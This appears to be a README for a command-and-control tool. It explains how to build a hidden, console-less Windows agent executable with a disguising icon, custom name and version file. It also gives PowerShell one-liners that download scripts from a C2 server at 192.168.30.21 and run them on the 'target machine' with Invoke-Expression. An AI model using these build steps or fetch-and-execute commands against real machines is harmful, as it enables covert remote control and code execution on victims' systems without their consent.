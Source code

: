 # C2
You should include 3 JSON files in /server directory: agents.json, commands_output.json, commands.json

## Agent
### Install EXE
```bash
pyinstaller --onefile --noconsole --icon=cog.ico agent.py
```

### Install EXE (with a different name)
```bash
pyinstaller --onefile --noconsole --icon=cog.ico --name=ExeName agent.py
```

### Install EXE (with a name + a custom version file)
```bash
pyinstaller --onefile --noconsole --icon=cog.ico --name=ExeName --version-file=version.txt agent.py
```

## Custom powershell script usage:

To run custom powershell scripts on target machine (Agent), you can execute this command:
```powershell
Invoke-Expression ( [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri "http://192.168.30.21:5000/static/scripts/script.ps1").Content) )
```

Change wallpaper to cat image:
```powershell
Invoke-Expression ( [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri "http://192.168.30.21:5000/static/scripts/wallpaper.ps1").Content) )
```